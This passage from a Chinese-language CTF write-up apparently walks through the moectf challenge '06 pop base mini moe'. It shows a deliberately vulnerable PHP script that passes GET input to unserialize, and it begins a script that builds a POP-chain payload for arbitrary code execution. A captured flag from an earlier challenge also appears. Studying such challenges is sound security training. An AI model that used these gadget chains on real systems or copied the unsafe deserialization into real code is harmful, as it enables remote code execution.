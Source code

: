 > [!FLAG]
>
> moectf{Hav3_tHe-U5EFu1_pA5swOrd_ANd_GO-EV3ryWHEre-onIY-5ql_can_do0}

#### 06 pop base mini moe

```php title="06.php"
<?php

class A {
    // 注意 private 属性的序列化哦
    private $evil;

    // 如何赋值呢
    private $a;

    function __destruct() {
        $s = $this->a;
        $s($this->evil);
    }
}

class B {
    private $b;

    function __invoke($c) {
        $s = $this->b;
        $s($c);
    }
}


 if(isset($_GET['data']))
 {
     $a = unserialize($_GET['data']);
 }
 else {
     highlight_file(__FILE__);
 }
```

显然，由 B 我们可以决定执行的函数，由 A 我们可以调用 B 并决定执行的参数，实现任意代码执行。

我们利用 php 获得序列化字符串：

```php title="serialize.php"
<?php

class A
{
    private $evil;
    private $a;
    public function __construct($evil, $a)
    {
        $this->evil = $evil;
        $this->a = $a;
    }
}

class B
{
    private $b;
    public function __construct($b)
    {
        $this->b = $b;
    }
```